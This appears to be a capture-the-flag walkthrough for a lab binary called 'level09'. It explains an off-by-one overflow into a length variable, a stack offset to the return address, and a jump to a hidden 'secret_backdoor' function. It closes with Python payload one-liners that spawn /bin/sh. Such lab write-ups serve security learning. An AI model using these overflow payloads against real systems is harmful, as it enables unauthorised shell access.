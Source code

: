 # Level09

![](Ressources/img/level09_launch.png)

The program prompts username and send a message via Unix-Dude supposedly. Let's use [gdb and radare](Ressources/gdb.md) to understand what's going on.

The binary simply prompts for, then copies, username and a message.

We find a hidden function `secret_backdoor`, which reads to a buffer from `stdin`, then calls `system` with the buffer. 
Obviously we would like to jump to `secret_backdoor` somehow, and enter `/bin/sh` on `stdin`, to open a shell.

# Off-by-one error

The copy username loop has an `off-by-one` error, which allows the user to overwrite the `len_message` variable by one byte.

A larger `len_message` than the default `140` can cause `strncpy` to overflow the buffer when copying the Msg.

So let's fill the 40 byte username buffer, then overflow by 1 byte into `len_message`, writing the maximum 1 byte value `0xff`

    (python -c 'print "A" * 40 + "\xff"'; cat) | ./level09

![](Ressources/img/overflow.png)

# RSP offset

The binary was compiled in 64-bit, `RSP` (not `EIP`) is the return address register.

Using this [buffer overflow pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/?) and the following in gdb.

    python -c 'print "A" * 40 + "\xff" + "\n" + "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah"' > /tmp/level09

![](Ressources/img/offset.png)

We find we start to overwrite `RSP` after `200` bytes (rsp value starts after the 200th byte of pattern).

# Secret_backdoor address

![](Ressources/img/secret_backdoor_addr.png)

It's located at `0x55555555488c`

# Build exploit

So we build our exploit string:

- 40 byte username buffer, until overflow len - `"A" * 40 `
- 1 byte, max value, overwrite len - `\xff` 
- new line, enter unsername - \n 
- 200 byte msg buffer, until overflow `RSP` - `"A" * 200` 
- overwrite RSP with address of `secret_backdoor` - `"\x00\x55\x55\x55\x55\x48\x8c"[::-1]`
- new line, enter msg - \n 
- `system` open shell command - `/bin/sh`

Let's pipe our exploit string into the binary stdin.

    (python -c 'print "A" * 40 + "\xff" + "\n" + "A" * 200 + "\x00\x55\x55\x55\x55\x48\x8c"[::-1] + "\n" + "/bin/sh"'; cat) | ./level09

![](Ressources/img/end.png)
